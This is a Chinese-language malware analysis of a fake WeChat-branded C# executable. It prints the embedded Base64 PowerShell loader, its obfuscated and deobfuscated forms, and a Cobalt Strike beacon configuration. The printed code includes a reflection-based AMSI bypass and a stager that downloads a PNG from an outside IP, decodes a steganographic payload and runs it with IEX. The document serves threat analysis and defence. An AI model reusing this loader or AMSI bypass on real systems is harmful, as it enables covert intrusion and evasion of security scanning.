

C#可执行文件，用微信loga伪装一下：



MainAPP方法里面隐藏了一个B64编码的PS1脚本：


```python
U0VUICAoInswfXsxfSItZicycUYnLCd4QScpICAoIFt0eVBlXSgiezV9ezN9ezZ9ezJ9ezd9ezl9ezR9ezExfXsxfXswfXs4fXsxMH0iIC1mJ21BUnMnLCcuJywnTnRJTWUuSW5UZXInLCdTJywnaUMnLCdzWScsJ1RFTS5yVScsJ29QU0VSJywnaEEnLCdWJywnTCcsJ0VTJykgKSAgOyRDVksgPSBbVFlQZV0oInswfXsxfSIgLUYnUicsJ2VGJykgIDske0Zgd2l9PSAoIGdFdC1WQXJJQUJMRSAoInswfXsxfSItZicyJywncWZ4QScpIC1WYWx1RW9OTHkgICk6OigiezF9ezN9ezB9ezJ9Ii1mICdIR2xvJywnQWxsbycsJ2JhbCcsJ2MnKS5JbnZva2UoKDkwNzYrODA5Mi04MDkyKSk7JEN2ay4iYXNTYGVNYEJMeSIuIkdlVHR5YFBlIigiU3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi4kKFtjSEFyXSg2NSkrW2NIYVJdKFtieVRlXTB4NmQpK1tDaGFSXShbQnlUZV0weDczKStbQ0hhUl0oW0JZdGVdMHg2OSkrW0NIYVJdKDg1KjMxLzMxKStbY0hBUl0oW2J5dGVdMHg3NCkrW2NIQVJdKDEwNSkrW2NIYXJdKDEwOCkrW0NoYXJdKDExNSszOS0zOSkpIikuImdFYFRgRkllTEQiKCIkKCfDoG1zw6xTZXNzw67DtW4nLk5vUk1BTGlaZShbY2hhcl0oNzArNTQtNTQpK1tjSGFSXSgxMTEpK1tjSGFyXSgxMTQrMjQtMjQpK1tjaGFSXSgxMDYrMykrW2NoQVJdKDY4KzI2LTI2KSkgLXJlcGxhY2UgW0NIQVJdKDI0KzY4KStbY2hhUl0oW0J5dEVdMHg3MCkrW0NIYXJdKFtiWXRFXTB4N2IpK1tjSEFyXSg3Nys0NS00NSkrW2NoYVJdKDYyKzQ4KStbQ0hBUl0oMTI1KjExOC8xMTgpKSIsICgiezF9ezN9ezB9ezR9ezJ9Ii1mJ2ljLCcsJ05vbicsJ2ljJywnUHVibCcsJ1N0YXQnKSkuKCJ7Mn17MX17MH0iLWYnbHVlJywnZXRWYScsJ1MnKS5JbnZva2UoJHtuVWBMbH0sICR7bnVgbEx9KTsgJGN2ay4iYXNzZW1gQmBMeSIuImdgZXR0YFlQRSIoIlN5c3RlbS5NYW5hZ2VtZW50LkF1dG9tYXRpb24uJChbY0hBcl0oNjUpK1tjSGFSXShbYnlUZV0weDZkKStbQ2hhUl0oW0J5VGVdMHg3MykrW0NIYVJdKFtCWXRlXTB4NjkpK1tDSGFSXSg4NSozMS8zMSkrW2NIQVJdKFtieXRlXTB4NzQpK1tjSEFSXSgxMDUpK1tjSGFyXSgxMDgpK1tDaGFyXSgxMTUrMzktMzkpKSIpLiJnYEV0ZklgRUxkIigiJChbY2hhcl0oW2JZdEVdMHg2MSkrW0NoYVJdKFtCWXRlXTB4NmQpK1tDaGFyXSg1NSs2MCkrW2NoQXJdKDEwNSs5Ny05NykrW0NIQXJdKFtieVRlXTB4NDMpK1tDaGFSXSgxMTErNjctNjcpK1tjaGFyXShbQnl0RV0weDZlKStbY0hhUl0oW2JZdEVdMHg3NCkrW2NIQXJdKDEwMSkrW0NIYXJdKDEyMCkrW2NIQVJdKDExNikpIiwgKCJ7M317NH17Mn17MX17MH0iIC1mJ3RpYycsJ2JsaWMsU3RhJywnUHUnLCdOJywnb24nKSkuIlNlYFRgVkFsdUUiKCR7TmBVTGx9LCBbSW50UHRyXSR7ZmBXSX0pO3NhbCBhIE5ldy1PYmplY3Q7QWRkLVR5cGUgLUEgU3lzdGVtLkRyYXdpbmc7JGc9YSBTeXN0ZW0uRHJhd2luZy5CaXRtYXAoKGEgTmV0LldlYkNsaWVudCkuT3BlblJlYWQoImh0dHA6Ly8xMjEuMzcuMjIxLjk4OjExMTExLzEyMS5wbmciKSk7JG89YSBCeXRlW10gMzg0MDsoMC4uMSl8JXtmb3JlYWNoKCR4IGluKDAuLjE5MTkpKXskcD0kZy5HZXRQaXhlbCgkeCwkXyk7JG9bJF8qMTkyMCskeF09KFttYXRoXTo6Rmxvb3IoKCRwLkItYmFuZDE1KSoxNiktYm9yKCRwLkcgLWJhbmQgMTUpKX19OyAgICAgICAgLigiezB9ezF9ezJ9Ii1mJ3NlJywnVC1pVCcsJ2VtJykgKCJ7Mn17MH17MX0iIC1mJ2lhQmxFOjZNJywnNCcsJ1ZhUicpICggIFt0WXBFXSgiezF9ezJ9ezN9ezB9Ii1GICdHJywnc1knLCdzVEVNLlRFWCcsJ1QuZU5jb2RJbicpICkgOyAuKCJ7MH17MX0iLWYgJ0knLCdFWCcpKCAkNk00OjoiYXNgQ2lpIi4iR2VgVHN0cmBpbkciKCR7T31bMC4uMzU5OF0pKQ==
```

解码之后脚本：

```powershell
SET  ("{0}{1}"-f'2qF','xA')  ( [tyPe]("{5}{3}{6}{2}{7}{9}{4}{11}{1}{0}{8}{10}" -f'mARs','.','NtIMe.InTer','S','iC','sY','TEM.rU','oPSER','hA','V','L','ES') )  ;$CVK = [TYPe]("{0}{1}" -F'R','eF')  ;${F`wi}= ( gEt-VArIABLE ("{0}{1}"-f'2','qfxA') -ValuEoNLy  )::("{1}{3}{0}{2}"-f 'HGlo','Allo','bal','c').Invoke((9076+8092-8092));$Cvk."asS`eM`BLy"."GeTty`Pe"("System.Management.Automation.$([cHAr](65)+[cHaR]([byTe]0x6d)+[ChaR]([ByTe]0x73)+[CHaR]([BYte]0x69)+[CHaR](85*31/31)+[cHAR]([byte]0x74)+[cHAR](105)+[cHar](108)+[Char](115+39-39))")."gE`T`FIeLD"("$('àmsìSessîõn'.NoRMALiZe([char](70+54-54)+[cHaR](111)+[cHar](114+24-24)+[chaR](106+3)+[chAR](68+26-26)) -replace [CHAR](24+68)+[chaR]([BytE]0x70)+[CHar]([bYtE]0x7b)+[cHAr](77+45-45)+[chaR](62+48)+[CHAR](125*118/118))", ("{1}{3}{0}{4}{2}"-f'ic,','Non','ic','Publ','Stat')).("{2}{1}{0}"-f'lue','etVa','S').Invoke(${nU`Ll}, ${nu`lL}); $cvk."assem`B`Ly"."g`ett`YPE"("System.Management.Automation.$([cHAr](65)+[cHaR]([byTe]0x6d)+[ChaR]([ByTe]0x73)+[CHaR]([BYte]0x69)+[CHaR](85*31/31)+[cHAR]([byte]0x74)+[cHAR](105)+[cHar](108)+[Char](115+39-39))")."g`EtfI`ELd"("$([char]([bYtE]0x61)+[ChaR]([BYte]0x6d)+[Char](55+60)+[chAr](105+97-97)+[CHAr]([byTe]0x43)+[ChaR](111+67-67)+[char]([BytE]0x6e)+[cHaR]([bYtE]0x74)+[cHAr](101)+[CHar](120)+[cHAR](116))", ("{3}{4}{2}{1}{0}" -f'tic','blic,Sta','Pu','N','on'))."Se`T`VAluE"(${N`ULl}, [IntPtr]${f`WI});sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://121.37.221.98:11111/121.png   "));$o=a Byte[] 3840;(0..1)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};        .("{0}{1}{2}"-f'se','T-iT','em') ("{2}{0}{1}" -f'iaBlE:6M','4','VaR') (  [tYpE]("{1}{2}{3}{0}"-F 'G','sY','sTEM.TEX','T.eNcodIn') ) ; .("{0}{1}"-f 'I','EX')( $6M4::"as`Cii"."Ge`Tstr`inG"(${O}[0..3598]))
```

从 `http://121[.]37[.]221[.]98:11111/121.png` 下载图片。使用像素隐写术提取隐藏数据，每像素存储半个字节，通过 `B` 和 `G` 通道的低4位组合）。

- **分辨率**：1920×2 像素（仅读取前两行）
- **总像素**：3840 像素
- **每个像素提取 1 字节** → 共 3840 字节有效载荷

然后反射调用`System.Management.Automation.AmsiUtils`绕过AMSI保护。最后再执行（`PowerShell.AddScript`）提取的shellcode。

在绕过AMSI的过程中，还用了强制`amsiContext`和`amsiSession`为NULL的方法。

下面是去混淆之后的完整脚本：

```powershell
Set-Variable '2qfxA' ([System.Reflection.Assembly]);

$CVK = [System.Reflection.Assembly];

# 调用 Assembly.Load 方法加载 AMSI 绕过代码
${Fwi} = (Get-Variable '2qfxA' -ValueOnly)::Load("9076");

# 绕过 AMSI（反恶意软件扫描接口）
$CVK.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession", "NonPublic,Static").SetValue($null, $null);
$CVK.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext", "NonPublic,Static").SetValue($null, [IntPtr]${Fwi});

sal a New-Object;
Add-Type -AssemblyName System.Drawing;
$g = a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://121.37.221.98:11111/121.png"));

# 初始化字节数组用于存储隐写数据
$o = a Byte[] 3840;

# 从图片像素中提取隐藏数据（每像素2字节，共1920x2=3840字节）
(0..1) | %{
    foreach ($x in (0..1919)) {
        $p = $g.GetPixel($x, $_);
        $o[$_ * 1920 + $x] = ([math]::Floor(($p.B -band 15) * 16) -bor ($p.G -band 15));
    }
};

Set-Variable '6M4' ([System.Text.Encoding]);

# 将提取的字节数组解码为字符串并执行
IEX ($6M4::ASCII.GetString($o[0..3598]));
```

下载图像之后，二阶段shellcode脚本特征，下载beacon，Base64 编码 → XOR 解密 → 再次 Base64 解码。

提取的CS配置文件：

| 字段            | 值                                                           | 说明                       |
| --------------- | ------------------------------------------------------------ | -------------------------- |
| **Version**     | `4.6`                                                        | Cobalt Strike 版本号       |
| **Socket Port** | `11443`                                                      | C2 通信端口（HTTPS）       |
| **Interval**    | `60` 秒                                                      | 心跳间隔，每 60 秒回连一次 |
| **URL**         | `https://121.37.221.98/load`                                 | C2 服务器主地址            |
| **User-Agent**  | `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; MDDRJS)` | 伪装成旧版 IE 浏览器       |
| **Beacon Type** | `HTTPS`                                                      | 使用加密 HTTPS 通道        |
| **MaxGetSize**  | `1048576`                                                    | 最大 GET 请求大小（1MB）   |

| 字段               | 值                                                           | 说明                                     |
| ------------------ | ------------------------------------------------------------ | ---------------------------------------- |
| **Encryption Key** | `MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDf+Q1bBhu6OnW+G1vfTY1dZ+gn5s27t0zMyJ2Xg0LO2FGXL1ghBbss97vsHYKdIV+O+OHcZCfQ8znW4GFGiYmcggQSnli2qaCD5pghicSg7SHfYSZc7PD8qBUwL0SSwAEJCgUDwvAg+uY+6FWcCatimdxG9XymEuaF7lG7Um+bjwIDAQAB` | **RSA 公钥**，用于加密通信               |
| **Watermark**      | `987654321`                                                  | Cobalt Strike 授权水印，可识别团队服务器 |

| 字段                | 值                                                           | 说明                                        |
| ------------------- | ------------------------------------------------------------ | ------------------------------------------- |
| **HttpPostUri**     | `/submit.php`                                                | 数据回传路径（POST 请求）                   |
| **HTTPGetClient**   | `base64`                                                     | GET 请求参数使用 base64 编码                |
| **HTTPPostClient**  | `print, parameter "id", header Content-Type: application/octet-stream` | POST 数据通过 `id` 参数发送，伪装成二进制流 |
| **HTTPGet\_Verb**   | `GET`                                                        | 任务获取方式                                |
| **HTTPPost\_Verb**  | `POST`                                                       | 数据回传方式                                |
| **Proxy\_Behavior** | `Use IE settings`                                            | 使用系统 IE 代理设置                        |

| 字段                             | 值                                                           | 说明              |
| -------------------------------- | ------------------------------------------------------------ | ----------------- |
| **spawnto\_x64**                 | `%windir%\\sysnative\\rundll32.exe`                          | 64 位注入目标进程 |
| **spawnto\_x86**                 | `%windir%\\syswow64\\rundll32.exe`                           | 32 位注入目标进程 |
| **ProcInject\_Execute**          | `CreateThread, SetThreadContext, CreateRemoteThread, RtlCreateUserThread` | 支持的注入技术    |
| **ProcInject\_AllocationMethod** | `VirtualAllocEx`                                             | 内存分配方式      |
|                                  |                                                              |                   |